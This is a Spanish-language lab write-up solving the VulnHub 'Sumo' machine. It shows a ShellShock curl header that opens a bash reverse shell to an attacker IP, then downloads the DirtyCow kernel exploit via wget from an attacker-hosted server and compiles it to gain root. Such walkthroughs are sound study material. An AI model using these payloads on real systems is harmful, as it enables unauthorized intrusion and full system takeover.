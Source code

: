 # Sumo

Hoy vamos a resolver la maquina Sumo, donde estaremos tocando conceptos como explotación y abuso de ShellShock, así como explotación de Kernel en un nivel bastante basico.
- Plataforma: [VulnHub](https://www.vulnhub.com/)
- Dificultad: Beginner
- Meta: Obtener un shell root, es decir (root@localhost:~#) y luego obtener la bandera en /root

- Iniciamos haciendo ping a la IP para asegurarnos que la maquina esté activa, tuve problemas con herramientas como arp-scan o  netdiscover, así que me cree un [script](https://github.com/JoseVazquez101/My-scr1pt5/blob/main/hostscan.sh) para escanear mi red local:
- También he decidido añadir una resolución DNS local con el siguiente comando:
  ~~~bash
  echo '192.168.17.135  sumo.vh' >> /etc/hosts
  ~~~
- Si todo funciona, llegaría la hora de realizar el escaneo con nmap, los parametros que suelo utilizar son los siguientes:

  ~~~bash 
  sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -sV sumo.vh
  ~~~

- Y vemos que hay un servicio http ejecutándose en el equipo objetivo:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/c6ed23ff-9506-4704-893d-1d29ebd415e5)
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/08d67928-4a47-4034-979f-442a77dfe4fb)

- Con esto en mente, podemos realizar una enumeración de directorios de la siguiente manera:
~~~ bash
gobuster dir -u http://sumo.vh -w /usr/share/wordlists/dirb/big.txt -t 20 --add-slash --no-error
~~~

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/0dcccee1-4d6b-4f11-b89e-3ee6d5f1256e)

- A simple vista podríamos pensar que no existe nada fuera de lugar, pero para los ojos mas experimentados, la ruta **/cgi-bin** resulta llamativa, pues podríamos intentar enumerarla a ver si podemos explotar un posible [ShellShock](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)
- Enumeramos http://sumo.vh/cgi-bin/ y vemos algo interesante:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/814c14dd-5bdb-4f63-9d58-ffbda98ad686)

  - Intentaremos ganar acceso a través de un header malicioso con Curl, que incluirá un reverse shell, esto de la siguiente manera:
  
~~~ bash 
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.17.128/4444 0>&1' http://sumo.vh/cgi-bin/test.sh
~~~

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/0ee81383-92a7-4e86-9082-773ad162df77)

- Y estamos dentro :D

***
<h3>PrivEsc</h3>
- Al entrar, podemos comprobar que somos www-data, por lo que tendremos que enumerar de manera bastante detallada los vectores para escalar privilegios:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/44d3032e-74cc-405d-bc27-02189c9a8a9f)

- Hacemos un tratamiento de TTY de la siguiente forma para mas comodidad (opcional):
~~~ bash
script /dev/null -c bash
^Z
#Dejamos nuestra sesión en segundo plano
stty raw -echo; fg
#Nuestro tecleo será invisible, reiniciamos la xterm de igual manera
reset xterm
#Nos aparecerá un mensaje
export TERM=xterm
export SHELL=bash
~~~

- Después de enumerar por distintos vectores de ataque, me decidí centrar en algo que me llamó la atención, la versión de kernel parecía antigua, al ser una 3.2.0-23-generic:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/33f291ad-47b5-47af-9035-4f3ed23ee414)

- Si buscamos en Searchsploit por kernel 3.2 podremos encontrar algunos exploits, pero los mas interesantes son los de DirtyCow:
    ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/918a1816-afe4-462d-a4a5-b69c1bebf481)
- Vemos que están basados en Race Condition, elegiremos el que está enfocado en PrivEsc (linux/local/40839.c)
- Nos pasamos el script de la siguiente manera al directorio actual:
  ~~~ bash
  searchsploit -m 40839.c
  ~~~

- La maquina victima tiene gcc, así que podemos compilarlo desde ahí, por lo que montamos un servidor http desde nuestro lado y lo descargamos con wget:
	- En mi maquina:
	  ~~~ bash
	  python3 -m http.server 1234
	  ~~~
	  - En la maquina victima:
	  ~~~ bash
	  cd /tmp
	  wget http://192.168.17.128:1234/40839.c
	  gcc -pthread 40839.c -o dirty.o -lcrypt
	  ~~~
- Tuve algunos problemas con el binario de gcc en la maquina, así que tuve que mover mi binario de gcc con el servidor de python y cambiar la PATH para que buscase en mi directorio, por si a alguien mas le sucede, lo cambié así:
  - En mi maquina:
~~~ bash
cd /usr/bin
python3 -m http.server 1234
~~~
 - En la maquina victima:
~~~ bash
wget http://192.168.17.128:1234/gcc
export PATH=/tmp:$PATH 
~~~

- Ahora ejecutamos el binario compilado y asignaremos una contraseña, en pocas palabras el código erradica al ussuario root y lo sustituye por otro con una uid 0, modificando con este permiso el archivo de /etc/passwd y asignando una contraseña conocida:
  - Y con esto seremos un usuario con permisos root
  ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/dff2a24b-d0c5-4492-a997-66f34024652a)

  - Tomamos la bandera y podriamos dar por concluida la maquina :D
  ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/921deb7b-cdee-42d1-9276-ea4fb6d0e245)

  
